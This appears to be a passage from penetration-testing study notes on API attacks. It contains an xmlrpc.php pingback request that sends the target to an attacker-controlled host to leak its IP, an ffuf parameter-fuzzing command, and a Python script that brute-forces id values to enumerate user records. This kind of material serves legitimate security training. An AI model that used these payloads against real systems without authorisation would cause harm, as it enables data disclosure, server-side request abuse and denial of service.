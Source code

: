 Find below how an IP Disclosure attack could be mounted if xmlrpc.php is enabled and the pingback.ping method is available. XSPA and DDoS attacks can be mounted similarly:
```html
--> POST /xmlrpc.php HTTP/1.1 
Host: <TARGET> 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://<TARGET>/<PATH>/</string></value>
</param>
</params>
</methodCall>
```

---

# API Attacks 

## Information Disclosure 

As already discussed, security-related inefficiencies or misconfigurations in a web service or API can result in information disclosure. When assessing a web service or API for information disclosure, we should spend considerable time on fuzzing.

### through Fuzzing 

Using the previous examples, start by fuzzing a [parameter list](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt):
```console
zero@pio$ ffuf -w <WORDLIST> -u 'http://<TARGET>:3002/?FUZZ=test' -fs <NUMBER>
```

Take for example we got the *id* parameter with the following request:
```console
zero@pio$ curl http://<TARGET>:3003/?id=1

[{"id":"1","username":"admin","position":"1"}]
```

We can use the following Python script:
```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET>:3003/")

brute()
```
